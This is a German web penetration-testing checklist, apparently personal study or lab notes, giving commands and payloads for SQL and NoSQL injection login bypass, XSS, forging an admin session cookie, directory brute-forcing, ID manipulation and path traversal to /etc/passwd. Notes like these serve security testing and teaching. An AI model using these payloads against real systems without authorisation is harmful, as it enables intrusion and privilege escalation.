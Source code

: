 ## Checkliste Web-Pentesting
1. Passive & Active Scan mit OWASP ZAP / Mit Authentication und Proxy

2. Nach SQLi suchen
	- sqlmap
	`sqlmap.py -u [POST-GET-URL] --dbs`
	
	- Zeichen Injection
	`'` `;` `&&`
	[SQLi Cheat Sheet (1)](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
	[SQLi Cheat Sheet (2)](https://portswigger.net/web-security/sql-injection/cheat-sheet)

	- No-SQL-Attack-Suite
	`python3 nosql-login-bypass.py -t [POST-URL] -u customer0 -p compass`
	
	- NoSQLi Bypass Login
	`{"$ne": 0}`
	`{"$ne": -1}`
	`{"$gt":""}`

3. Nach XSS-Schwachstellen suchen
	- Manuelle Injection mit `<script>alert("XSS");</script>`
	- Automatisierte Injection mit [traxss](https://www.geeksforgeeks.org/traxss-automated-xss-vulnerability-scanner/)
	`python3 traxss.py`

4. Session Cookie admin flag prüfen
	- Session Cookies beginnen meist mit `ey`
	- Cookiename behinhaltet meistens Session
	- In ZAP nach Login das Session Cookie abrufen / Oder in Browser Console
	![[CleanShot 2022-09-28 at 09.55.23.png]]
	- Prüfen ob Session Cookie einfach verschlüsselt ist ([CyberChef](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,'')))	
	- Wenn Session Cookie entschlüsselbar versuchen admin Flag zu setzen
		- Meist `role:user` > `role:admin`  oder `admin:0` > `admin:1` 
	- Session Cookie über Browser Console eingeben oder direkt im Storage teil editieren `document.cookie="_sess=eyJ1c2VybmFtZSI6ImxlZXRoYWNrZXIiLCJhZG1pbiI6MX0="`
	![[CleanShot 2022-10-27 at 20.34.55.png]]

5. Mit dirbuster / gobuster Website auf versteckte Verzeichnise Scannen 
	`dirb [URL] [WORDLIST]`
	`gobuster dir -u [URL] -w [WORDLIST]`

6. Testen ob Seiten existieren
	- 403 / 404 kann Hinweis geben ob Seite existiert oder nicht (Beispiel ob User-Profil existiert oder nicht)

7. HTML Source Code checken
	- Kommentare mit Test Username / Links
	- Eingesetzte Software (-version)

8. URL prüfen
	- URL manipulieren. Beispiel ID ändern:
		`http://localhost:2501/updateblog?id=7`
	
	- POST-URL manipulieren
		![[CleanShot 2022-10-26 at 21.13.50.png]]
	
	- Path Traversal / Local file Inclusion (Auf versteckte Dateien prüfen)
	`http://localhost:2501/../../../../../../../etc/passwd`
	`http://localhost:2501/app.php?page=../../../../../../etc/passwd`

9. Berechtigung auf Unterseiten testen
	- Testen ob der Zugriff auf gewisse URLs auch als nicht berechtigter User oder Besucher funktioniert

10. Testen auf Fehlermeldungen
	- Zuviele Details in Fehlermeldungen können als Sicherheitslücke bewertet werden

## Tipps
- Persisten Log in Browser Network Console aktivieren
![[CleanShot 2022-10-13 at 20.32.05.png]]

